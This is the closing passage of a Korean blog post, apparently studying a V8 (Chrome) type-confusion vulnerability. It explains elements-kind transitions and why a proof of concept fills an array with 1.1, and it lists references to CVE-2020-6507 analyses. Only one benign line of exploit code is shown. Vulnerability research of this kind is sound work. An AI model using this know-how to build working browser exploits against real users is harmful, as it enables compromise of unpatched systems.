Elements Kind 전이는 더 일반적인 방향(`SMI → DOUBLE → ELEMENTS`, `PACKED → HOLEY`)으로만 일어나고, 반대 방향으로는 일어나지 않기 때문이다.

따라서 배열 a와 b는 JavaScript 수준에서 같은 값을 가지더라도 내부 Elements Kind가 다를 수 있다.

## PoC로 돌아가서...

자 이제 다시 첫 코드를 보자.

```JavaScript
const array = Array(0x40000).fill(1.1);
```

공부한 내용을 토대로 이 코드를 다시 해석해보면...

1. `Array(0x40000)`을 호출해 길이가 262,144인 JavaScript 배열을 생성한다.
2. 이 배열은 처음에 `HOLEY_SMI_ELEMENTS`로 생성되며, 원소 저장소는 the_hole로 채워진 **FixedArray**이다.
3. `.fill(1.1)`로 Double 값을 기록하려 하면 `HOLEY_DOUBLE_ELEMENTS`로 전이된다. 이때 원소 저장소가 **FixedDoubleArray**로 새로 할당되어 교체된다.
4. 이후 모든 슬롯에 1.1이 64비트 raw double로 기록된다. 그래서 결과적으로는 PACKED가 아니라 `HOLEY_DOUBLE_ELEMENTS` 배열이 된다.

돌고 돌아온 것 같긴한데 여기서 정리하자면...

즉, 1.1을 쓴 이유는 값 자체가 아니라 V8이 Double 전용 저장소(`FixedDoubleArray`)를 쓰게 만들기 위해서다. 

이 취약점의 기준이 되는 최대 길이(67,108,862)도, TurboFan의 가정도 모두 Double 배열에 대한 것이기 때문이다.

다음에는 `giant_array`를 만드는 나머지 코드와 `trigger()`가 최적화되는 과정을 더 자세히 살펴보자!

## Reference
- https://bbs.kanxue.com/thread-293153.htm
- https://v8.dev/blog/fast-properties
- https://v8.dev/blog/elements-kinds
- https://chromium.googlesource.com/v8/v8/+/refs/tags/8.3.110.9/src/objects/fixed-array.h
- https://chromium.googlesource.com/v8/v8/+/refs/tags/8.3.110.9/src/objects/js-array.h
- https://chromium.googlesource.com/v8/v8/+/refs/tags/8.3.110.9/src/objects/elements.cc
- https://www.y4y.space/2022/08/05/browser-exploitation-a-case-study-of-cve-2020-6507/
- https://www.elttam.com/blog/simple-bugs-with-complex-exploits
- https://bugs.chromium.org/p/project-zero/issues/detail?id=2046
- https://v8.dev/blog/pointer-compression
- https://chromium.googlesource.com/v8/v8/+/refs/tags/8.3.110.9/src/objects/fixed-array.tq
- https://chromium.googlesource.com/v8/v8/+/refs/tags/8.3.110.9/src/builtins/builtins-array.cc
- https://chromium.googlesource.com/v8/v8/+/refs/tags/8.3.110.9/src/builtins/array-splice.tq
- https://chromium.googlesource.com/v8/v8/+/refs/tags/8.3.110.9/src/compiler/type-cache.h
- https://chromium.googlesource.com/v8/v8/+/refs/tags/8.3.110.9/src/compiler/typed-optimization.cc